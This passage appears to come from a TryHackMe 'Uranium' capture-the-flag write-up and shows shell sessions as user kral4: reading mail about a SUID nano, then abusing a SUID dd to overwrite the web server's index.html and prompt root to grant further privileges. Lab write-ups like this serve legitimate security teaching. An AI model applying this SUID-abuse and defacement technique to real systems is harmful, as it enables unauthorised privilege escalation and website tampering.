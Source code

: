 **Let's read `kral4`'s mail!**
```shell
kral4@uranium:~$ cat /var/mail/kral4 
[...]
From: "root@uranium.thm" <root@uranium.thm>
To: "kral4@uranium.thm" <kral4@uranium.thm>
[...]
I give SUID to the nano file in your home folder to fix the attack on our  index.html. Keep the nano there, in case it happens again.
[...]
```

**So, there's a SUID `nano` binary in `kral4` home directory?**
```shell
kral4@uranium:~$ cd /home/kral4/
kral4@uranium:/home/kral4$ ls -lah
total 140K
drwxr-x--- 3 kral4 kral4 4.0K May  4  2021 .
drwxr-xr-x 4 root  root  4.0K Apr 23  2021 ..
lrwxrwxrwx 1 root  root     9 Apr 25  2021 .bash_history -> /dev/null
-rw-r--r-- 1 kral4 kral4  220 Apr  9  2021 .bash_logout
-rw-r--r-- 1 kral4 kral4 3.7K Apr  9  2021 .bashrc
-rwxr-xr-x 1 kral4 kral4 108K Apr  9  2021 chat_with_hakanbey
-rw-r--r-- 1 kral4 kral4    5 Feb 17 08:08 .check
drwxrwxr-x 3 kral4 kral4 4.0K Apr 10  2021 .local
-rw-r--r-- 1 kral4 kral4  807 Apr  9  2021 .profile
-rw-rw-r-- 1 kral4 kral4   38 Apr 10  2021 user_2.txt
```

**Hmm... Maybe we need to copy the `nano` binary?**
```shell
kral4@uranium:/home/kral4$ cp /bin/nano .
kral4@uranium:/home/kral4$ ls -lah nano 
-rwxr-xr-x 1 kral4 kral4 241K Feb 17 08:31 nano
```

**Oh! Since we have SUID permission in `/bin/dd`, we can just modify the `index.html`!**
```shell
kral4@uranium:/home/kral4$ echo "hacked" | /bin/dd of=/var/www/html/index.html
[...]
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Uranium-CTF/images/Pasted%20image%2020230217163350.png)

```shell
kral4@uranium:/home/kral4$ 
You have new mail in /var/mail/kral4

kral4@uranium:/home/kral4$ cat /var/mail/kral4
[...]
From: "root@uranium.thm" <root@uranium.thm>
To: "kral4@uranium.thm" <kral4@uranium.thm>
Subject: Hi Kral4
[...]
I think our index page has been hacked again. You know how to fix it, I am giving authorization.
[...]
```
